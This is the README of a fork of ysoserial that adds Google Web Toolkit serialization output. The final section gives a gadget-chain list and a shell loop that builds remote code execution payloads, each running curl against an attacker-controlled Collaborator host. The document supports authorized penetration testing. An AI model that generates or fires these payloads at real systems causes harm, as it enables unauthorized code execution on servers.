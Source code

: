 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

You can try skipping the build steps below and using the precompiled JAR file available in the releases list for this repo.

Otherwise, compile the code using the same steps as for the main project (version 11 JRE, etc.):

```
mvn clean package -DskipTests
```

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

## Build error troubleshooting

### ysoserial requires Java 11

You may receive errors similar to the following if you attempt to compile `ysoserial` using a Java runtime newer than version 11:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-compiler-plugin:3.5.1:compile (default-compile) on project ysoserial: Compilation failure: Compilation failure: 
[ERROR] error: Source option 6 is no longer supported. Use 7 or later.
[ERROR] error: Target option 6 is no longer supported. Use 7 or later.
```

As briefly mentioned above, Java 11 is required to build the standard version of `ysoserial`, as well as this fork. You will need to install a version 11 JRE (make sure it is not headless, as X Window support is required), and then configure your system/session to use that JRE by default. For example, you could updated your `JAVA_HOME` environment variable to point to the JDK 11 home directory in the same terminal session as the one where you're running `mvn` commands. When you run the `java -version` command in that session, it should indicate some variation of 11, or the build will fail. The steps for installing and configuring a specific JRE depend greatly on your OS and other factors.

### Missing javax.interceptor-api library

You may receive errors similar to the following, depending on your Linux distribution, how long you've had Maven installed on it, etc.:

```
[WARNING] The POM for javax.interceptor:javax.interceptor-api:jar:3.1 is missing, no dependency information available
...omitted for brevity...
[ERROR] Failed to execute goal on project ysoserial: Could not resolve dependencies for project ysoserial:ysoserial:jar:0.0.6-SNAPSHOT: The following artifacts could not be resolved: javax.interceptor:javax.interceptor-api:jar:3.1 (absent): javax.interceptor:javax.interceptor-api:jar:3.1 was not found in
https://repo.jenkins-ci.org/public/
during a previous attempt. This failure was cached in the local repository and resolution is not reattempted until the update interval of jenkins has elapsed or updates are forced -> [Help 1]
```

If so, unpack the file `lib/javax.interceptor-api-3.1.tar.gz` into your user-level Maven directory (usually `~/.m2`). Doing so should result in the creation of a subdirectory named `repository/javax/interceptor/javax.interceptor-api/3.1` containing at least four files. The root cause is that the 3.1 library was built, released, and many projects added it as a depenedency, then [the maintainers decided it was a mistake and deleted the library](https://github.com/jakartaee/interceptors/issues/4). This repo may be updated at a later date to use a different version of the library so that this step is not necessary.

### Newer versions of Maven may require pom.xml syntax update

You may receive the following error if you are using a newer version of Maven:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single (make-assembly) on project ysoserial: Execution make-assembly of goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single failed: parameter 'descriptor' has been removed from the plugin, please verify documentation. -> [Help 1]
[ERROR]
```

If so, replace the existing `pom.xml` file with the content of the `pom-newer_maven.xml` file.

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
mkdir "payloads-${COLLABORATOR}-curl"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' \
   > "payloads-${COLLABORATOR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
